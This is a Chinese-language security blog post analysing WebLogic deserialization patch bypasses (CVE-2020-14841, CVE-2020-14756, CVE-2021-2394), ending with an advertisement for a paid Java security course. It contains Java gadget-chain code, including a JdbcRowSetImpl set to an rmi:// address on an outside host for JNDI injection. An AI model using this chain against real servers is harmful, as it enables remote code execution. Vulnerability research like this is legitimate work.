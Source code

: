 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/wFHhWvnCLm1xcWZIbv6O3A)

前几天 weblogic 7 月例行更新中，修复了一个反序列化漏洞。该漏洞性质属于绕过之前的反序列化漏洞补丁。要了解这个漏洞的原因，我们首先要学习其他几个漏洞的原理。

一 weblogic 反序列化绕过指南
-------------------

本章节只是大概讲解一下如何绕过 weblogic 反序列化漏洞的补丁。

序列化和反序列化是将一个对象从本机 JVM 中传输到远程 JVM 上。在 java 序列化的时候，会将对象的类名也写入到传输的数据中。反序列化的时候首先从数据中读取类名，然后通过反射，根据类名去实例化这个对象。类通过实现 java.io.Serializable 接口可以启用其序列化功能。未实现次接口的类无法使其任何状态序列化或反序列化。可序列化类的所有子类型本身都是可序列化的。序列化接口没有方法或字段，仅用于标识可序列化的语义。

一个类如果想被序列化，那么它可以继承自两个接口，这两个接口的对比如下。

<table><thead><tr><th>区 &nbsp; 别</th><th>Serializable</th><th>Externalizable</th></tr></thead><tbody><tr><td>实现复杂度</td><td>实现简单，Java 对其有内建支持</td><td>实现复杂，由开发人员自己完成</td></tr><tr><td>执行效率</td><td>所有对象由 Java 统一保存，性能较低</td><td>开发人员决定哪个对象保存，可能造成速度提升</td></tr><tr><td>保存信息</td><td>保存时占用空间大</td><td>部分存储，可能造成空间减少</td></tr></tbody></table>

而在 weblogic 的 T3 协议中，就是用 java 的序列化协议互相传输对象。为了保证安全性，T3 协议的反序列化黑名单中标识哪些类不可以被反序列化。所以 weblogic 补丁绕过总共有下面几种办法

### 1.1 黑名单没有覆盖的类

weblogic 的开发没有主观能动性，对于安全态度十分消极。只有有人上报 CVE，他才会动手加黑名单。否则绝对不会做任何事情。而且对于黑名单经常漏加，造成很多绕过案例。

### 1.2 利用未经过滤的 ObjectInputStream 绕过

在之前的公众号讲过，在 weblogic 中某些类继承自 Externalizable 接口，在反序列化的时候默认会调用`readExternal`方法。在该方法中没有使用 weblogic 提供的带有黑名单过滤功能的 FilterInputStream 去还原类。而是自作主张，自己使用了没有黑名单过滤的 ObjectInputStream 去还原对象。造成黑名单根本就没用上，例如 CVE-2020-2551 就是这种情况。

当然这只是一个大概，并没有很详细，我们这篇文章的重点不在此。

3. CVE-2020-14841 Jndi 注入漏洞
---------------------------

在`oracle.eclipselink.coherence.integrated.internal.cache.LockVersionExtractor`中，代码如下

```
public Object extract(Object arg0) {        if (arg0 == null) {            return null;        } else {            if (arg0 instanceof Wrapper) {                arg0 = ((Wrapper)arg0).unwrap();            }            if (!this.accessor.isInitialized()) {                this.accessor.initializeAttributes(arg0.getClass());            }            return this.accessor.getAttributeValueFromObject(arg0);        }    }
```

我们可以从代码上看出来，类似与 cve-2020-2555，用法也都是一样的。触发漏洞的重点在于 this.accessor.getAttributeValueFromObject 中。对于这个漏洞，我们一般使用 MethodAttributeAccessor 这个类去触发漏洞

相关代码如下

```
public class MethodAttributeAccessor extends AttributeAccessor {    protected String setMethodName = "";    protected String getMethodName;    protected transient Method setMethod;    protected transient Method getMethod;    protected Object getAttributeValueFromObject(Object anObject, Object[] parameters) throws DescriptorException {        try {            if (PrivilegedAccessHelper.shouldUsePrivilegedAccess()) {                try {                    return AccessController.doPrivileged(new PrivilegedMethodInvoker(this.getGetMethod(), anObject, parameters));            } else {                return this.getMethod.invoke(anObject, parameters);            }
```

下面我们选取一条 Gadget。在反序列化的 Gadget 中，单纯通过反序列化还原一个类是没有办法触发漏洞，一般都一条链条去触发。所以我们选取下面的 cve-2020-14645 的 Gadget，代码如下

```
// JdbcRowSetImpl        JdbcRowSetImpl jdbcRowSet = new JdbcRowSetImpl();        jdbcRowSet.setDataSourceName("rmi://192.168.3.254:8888/xsmd");        MethodAttributeAccessor methodAttributeAccessor = new MethodAttributeAccessor();        methodAttributeAccessor.setGetMethodName("getDatabaseMetaData");        methodAttributeAccessor.setIsWriteOnly(true);        methodAttributeAccessor.setAttributeName("UnicodeSec");        LockVersionExtractor extractor = new LockVersionExtractor(methodAttributeAccessor, "UnicodeSec");        final ExtractorComparator comparator = new ExtractorComparator(extractor);        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);        Object[] q = new Object[]{jdbcRowSet, jdbcRowSet};        Reflections.setFieldValue(queue, "queue", q);        Reflections.setFieldValue(queue, "size", 2);        Field comparatorF = queue.getClass().getDeclaredField("comparator");        comparatorF.setAccessible(true);        comparatorF.set(queue, new ExtractorComparator(extractor));
```

注意，在反序列化 Gadget 中，必须所有类都可以被反序列化。

Weblogic 的修复思路也比较清奇，只是将 LockVersionExtractor 与 MethodAttributeAccessor 类加入到黑名单中。但是 LockVersionExtractor 旁边还有一个 FilterExtractor 类，同样可以触发该漏洞，但是 weblogic 却没有将其加入到黑名单中。这也为 cve-2021-2394 埋下了伏笔

3. cve-2020-14756 分析
--------------------

weblogic 偏偏又搞出一套属于自己的反序列化方案。在 coherence 包中继承自`com.tangosol.io.ExternalizableLite`的类同样可以被反序列化。我们看一下`com.tangosol.io.ExternalizableLite`的具体代码。

```
public interface ExternalizableLite extends Serializable {
    void readExternal(DataInput var1) throws IOException;

    void writeExternal(DataOutput var1) throws IOException;
}
```

虽然他这个接口也存在 readExternal 方法，但是方法的参数类型与 java.io.Externalizable 接口的 readExternal 方法的参数类型不同。所以对于继承自`com.tangosol.io.ExternalizableLite`的类，在反序列化的时候并不会主动调用其 readExternal 方法。而是像继承自 java.io.serializable 接口的类一样，还原所有属性。

但是我们要想办法调用`com.tangosol.io.ExternalizableLite`的 readExternal 方法，在很多继承自该接口的类中都重写了该方法，而且有很多注入绕过 weblogic 黑名单的敏感操作。在`com.tangosol.coherence.servlet.AttributeHolder`类中，java 原生的序列化与反序列化默认会调用`readExternal(ObjectInput in)`方法，恰好又调用了`readExternal(DataInput in)`方法。方法代码如下，第三行中使用`ExternalizableHelper.readObject`从流中还原一个对象

```
public void readExternal(DataInput in) throws IOException {        this.m_sName = ExternalizableHelper.readUTF(in);        this.m_oValue = ExternalizableHelper.readObject(in);        this.m_fActivationListener = in.readBoolean();        this.m_fBindingListener = in.readBoolean();        this.m_fLocal = in.readBoolean();    }
```

在`ExternalizableHelper.readObject`方法中实际调用`ExternalizableHelper.readObjectInternal`方法去还原一个对象，代码如下

![](https://mmbiz.qpic.cn/mmbiz_png/cOCqjucntdHAGnvu13srwY5EQ6mwMsnrzknuFzpY0ZFXJdKMVje4YY950xicQ3JI9hYiaOricgT0wjszuvoSXTwgg/640?wx_fmt=png)

在这里根据对象的类型，调用相关函数去还原。对于继承自`com.tangosol.io.ExternalizableLite`的类，由 readExternalizableLite 方法去处理，实例化相关对象后，再调用类的 readExtrenal 方法。

![](https://mmbiz.qpic.cn/mmbiz_png/cOCqjucntdHAGnvu13srwY5EQ6mwMsnrueBIZU5sSqg5DDTsO6cteCvvmz5cyKQic1qgMCtx68bNOBo0frVKwVA/640?wx_fmt=png)

在这里，读取类名将其实例化。在这最关键的一步，缺少了黑名单的过滤。

weblogic 的修复方法也很简单，那就是直接弄个黑名单过滤，代码如下，黑名单其实就是

![](https://mmbiz.qpic.cn/mmbiz_png/cOCqjucntdHAGnvu13srwY5EQ6mwMsnr2JJPdlD7ialGYA732iapQCcyxOMhbskiaqXp5Sp6GdgGiaBxicttBIhN2jA/640?wx_fmt=png)

4. cve-2021-2394 分析
-------------------

说了上面这两个漏洞，终于可以引出下面这个漏洞了。这个漏洞其实是 CVE-2020-14841 与 cve-2020-14756 的结合体。在 cve-2020-14841 中最为关键的两个类目前已经加入黑名单套餐。其中 LockVersionExtractor 可以使用 FilterExtractor 代替。那么 MethodAttributeAccessor 如何代替。

答案在`oracle.eclipselink.coherence.integrated.internal.cache.SerializationHelper#readAttributeAccessor(java.io.DataInput)`中，代码如图。在这个方法中实例化一个 MethodAttributeAccessor 对象。我们只需要寻找在反序列化过程中是谁调用该方法，即可不通过反序列化去生成 MethodAttributeAccessor 对象

![](https://mmbiz.qpic.cn/mmbiz_png/cOCqjucntdHAGnvu13srwY5EQ6mwMsnr1Jnh634Q3ont9qwCnDvEzGLtvFuicajCFuersp8lIZvdlTVgdRcBfFA/640?wx_fmt=png)

image.png  

巧合的是，FilterExtractor 中，正好会通过 readAttributeAccessor 去还原 MethodAttributeAccessor 对象。FilterExtractor 对象也恰好继承自`com.tangosol.io.ExternalizableLite`方法。而触发 readAttributeAccessor 的方法恰好是重写自接口的方法。

我们只需要通过 cve-2020-14756 前半部分触发漏洞即可。十分简单，代码如下![](https://mmbiz.qpic.cn/mmbiz_png/cOCqjucntdHAGnvu13srwY5EQ6mwMsnrZKOnnlLIIkeqjSr6DDzPOic5e9f2CiaXPGVI2gHB6dPp86863Jia9EckQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/cOCqjucntdHAGnvu13srwY5EQ6mwMsnr6NdPMeTUehQmmGia4W9sic8TuhnghLK5WrxOBTlHvIYnZ59g4898XXBw/640?wx_fmt=png)

_*** 文中提到所有代码已放至知识星球**_  

号外  

[宽字节安全 JAVA 安全线上进阶课程：开讲啦！！！](https://mp.weixin.qq.com/s?__biz=MzUzNTEyMTE0Mw==&mid=2247484931&idx=1&sn=a71640ef96ffdc5e26b1c5df38dca0ba&scene=21#wechat_redirect)

宽字节安全首次推出 `JAVA安全进阶`课程，系统性讲解 JAVA 反序列化漏洞，代码执行漏洞等开发中可能出现的安全问题。

培训采用 线上授课 + 视频录播 的授课方式，交流群随问随答。首期班加入即送 宽字节安全知识星球  名额，涉及 **java 安全，红蓝对抗，漏洞研究****等安全领域。**

每周只安排两天课，共 6 周 36 课时，由浅入深，感受 java 安全魅力。

*   周三 **19:30 - 21:30**
    
*   周日 **14:00 -18:00**
    

整套课程原价 **6888 元**，现在报名即可享受立减 1000 元！！！

名额有限欢迎咨询。

[点击查看详情](https://mp.weixin.qq.com/s?__biz=MzUzNTEyMTE0Mw==&mid=2247484931&idx=1&sn=a71640ef96ffdc5e26b1c5df38dca0ba&scene=21#wechat_redirect)  

扫码添加客服微信，期待您的加入

![](https://mmbiz.qpic.cn/mmbiz_jpg/cOCqjucntdEhsMUjTPslVricKT94iaKpb5sL2PolmEf1WwcEEuwFaIGL9U3ePh1KXDDK8yggpMPHwDUibcn5b17wg/640?wx_fmt=jpeg)